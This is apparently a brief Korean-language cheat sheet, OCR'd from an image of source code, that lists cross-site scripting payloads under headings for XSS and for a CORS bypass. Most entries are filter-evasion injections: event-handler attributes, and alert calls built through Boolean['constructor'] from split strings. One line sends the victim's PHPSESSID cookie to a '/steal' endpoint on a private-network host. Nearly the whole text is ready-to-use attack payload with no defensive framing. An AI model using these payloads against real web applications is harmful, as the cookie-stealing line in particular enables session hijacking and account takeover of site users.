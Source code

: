 # XSS 페이로드
"><svg/onwheel=alert'1'> 


aa"><onpointover="alert(1)"><input%20types="hidden"%20value=" 


<div class="~~~ -hidden"> 태그에서 hidden 삭제 후 활성화된 창에서 입력
Boolean['constructor']('alert(1);')();
Boolean['constructor']('a' + 'l' + 'e' + 'r' + 't' + '(1)')();

# CORS 정책 우회
;const img=new Image();img.src='http://192.168.0.2:5000/steal?PHPSESSID='+document.cookie.match(/PHPSESSID=([^;]+)/)[1];//'

";Boolean[%27constructor%27](%27al%27%2b%27er%27%2b%27t(1)%27)();"


;window.open("https://naver.com");
